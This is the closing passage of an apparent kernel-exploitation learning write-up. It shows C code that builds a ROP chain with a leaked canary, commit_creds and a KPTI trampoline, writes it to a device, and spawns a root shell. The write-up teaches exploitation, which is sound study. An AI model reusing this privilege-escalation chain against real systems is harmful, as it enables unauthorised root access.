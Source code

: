 Finally, after storing `cred_struct`, we now call `commit_creds` with our struct as argument.

```c
void cc(){
    unsigned long payload[50];
    int i=0x10;
    payload[i++] = canary;
    payload[i++] = 0; //rbx
    payload[i++] = 0; //r12
    payload[i++] = 0; //rbp
    payload[i++] = pop_rdi;
    payload[i++] = pkc_struct;
    payload[i++] = 0;
    payload[i++] = commit_creds;
    payload[i++] = kpti_trampoline;
    payload[i++] = 0;
    payload[i++] = 0;
    payload[i++] = (unsigned long)priv_esc;
    payload[i++] = user_cs;
    payload[i++] = user_rflags;
    payload[i++] = user_sp;
    payload[i++] = user_ss;
    puts("[+] Writing payload for root");
    write(fd,payload,sizeof(payload));
}
```

Finally, after executing `commit_creds(prepare_kernel_cred(0))`, we call our `pric_esc` function which gives us our sweet root shell.

```c
void priv_esc(){
    if(getuid()==0){
        puts("[+] Root!!!!");
        system("/bin/sh");
    }
    else{
        puts("[-] Something wrong");
        exit(INVALID);
    }
}
```

# Conclusion

I had a great time learning about all the mitigations by enabling them one by one to understand them better.

Full Script- [Here](https://gist.github.com/PwnVerse/717604fae0f1fcbc4afa6e9878860dce)

## References

+ [An Awesome Blog post](https://lkmidas.github.io/posts/20210205-linux-kernel-pwn-part-3/)
